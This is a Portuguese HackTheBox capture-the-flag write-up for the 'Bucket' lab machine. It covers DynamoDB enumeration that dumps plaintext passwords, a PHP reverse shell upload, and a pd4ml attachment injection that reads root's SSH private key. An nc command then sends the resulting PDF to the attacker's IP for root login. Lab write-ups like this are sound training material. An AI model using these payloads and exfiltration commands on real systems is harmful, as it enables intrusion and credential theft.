 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Bucket - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Y1obslX.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
awscli
curl
wfuzz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/4%OT=22%CT=1%CU=36786%PV=Y%DS=2%DC=T%G=Y%TM=5FF34D45
OS:%P=i686-pc-windows-windows)SEQ(SP=FD%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DS
OS:T11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 41.328 days (since Tue Nov 24 06:23:01 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   190.00 ms 10.10.14.1
2   192.00 ms bucket.htb (10.10.10.212)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a porta 80, somos redirecionados para o dominio: bucket.htb
Portanto, vamos adiciona-lo no arquivo de hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 'bucket.htb  10.10.10.212' >> /etc/hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após isso conseguimos acessar a página web, após alguns testes, não foi possível encontrar outros diretórios e arquivos.

![Image](https://i.imgur.com/Wsd50kp.png)

Ao analisar o código fonte, podemos ver que possuimos um subdomain (s3):
![Image](https://i.imgur.com/tXc0CNj.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos tentar encontrar diretorios nele com o wfuzz:
![Image](https://i.imgur.com/VppmJzb.png)

Podemos encontrar 2 diretórios:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
health
shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o diretório shell, podemos perceber o serviço 'DynamoDB'.
![Image](https://i.imgur.com/RXhjaJf.png)


Para interagir com esse serviço, vamos utilizar a tool da própria AWS, conhecida como aws-cli

Após algumas horas lendo documentações, finalmente temos o comando correto para interagir:

![Image](https://i.imgur.com/Kiz6WsO.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

e b00m, temos o nome da tabela que está rodando lá :D
Vamos ver se conseguimos credenciais;


![Image](https://i.imgur.com/P3J8y29.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos credenciais :D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ao tentar valida-las via SSH, nenhum login foi possível

Listando os arquivos:

![Image](https://i.imgur.com/updbyQp.png)

Após isso, tentamos fazer o upload de uma reverse shell para o servidor.
No nosso caso vamos utilizar a [shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) do 'Pentest Monkeys' 

![Image](https://i.imgur.com/VLLIuAS.png)

w00t temos uma shell como www-data, vamos tentar melhorar nossa shell com python

![Image](https://i.imgur.com/24FbvOg.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, temos uma shell interativa e encontramos um novo usuário chamado 'Roy'
Portanto podemos testar as senhas já obtidas previamente para este usuário.

ee entãoo:

![Image](https://i.imgur.com/me6RqLL.png)

Agora vamos melhorar nossa shell logando via SSH com o usuário 'Roy'
![Image](https://i.imgur.com/0q73Xnv.png)


Após uma analise do que estava rodando na máquina, podemos perceber que o arquivo '/var/www/bucket-app/index.php' faz a criação de uma tabela e escreve um arquivo após a requisição correta.
![Image](https://i.imgur.com/LDuapI6.png)


Então, vamos tentar fazer a criação dessa tabela manualmente.
![Image](https://i.imgur.com/894o4iV.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 Agora que a tabela foi criada vamos escrever nosso arquivo desejado.
![Image](https://i.imgur.com/SOPFNoe.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Podemos validar se foi criado e escrito corretamente.
![Image](https://i.imgur.com/2UCnT06.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name alerts --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Precisamos fazer forward para conseguir enviar a requisição, então
![Image](https://i.imgur.com/ZAZDHJH.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh -L 8000:127.0.0.1:8000 roy@10.10.10.212
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora podemos fazer nossa requisição.

![Image](https://i.imgur.com/UshHUgt.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


O arquivo agora foi criado na pasta /var/www/bucket-app/files/result.pdf
![Image](https://i.imgur.com/15FUBjs.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvn 10.10.14.218 443 < result.pdf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Agora transferimos o arquivo PDF contendo o arquivo que inserimos na tabela para nossa máquina, utilizando o netcat.

![Image](https://i.imgur.com/kwRhhHi.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vnlp 443 > result.pdf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após baixarmos o arquivo para nossa máquina, podemos abri-lo como PDF, e lá está, nosso arquivo (id_rsa)
![Image](https://i.imgur.com/TU7OLGp.png)

E então, salvamos o arquivo em nossa máquina com permissão 600 e assim podemos fazer o login como root!
![Image](https://i.imgur.com/wB66Uvu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
chmod 600 id_rsa
ssh root@bucket.htb -i id_rsa
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




references comming lolz



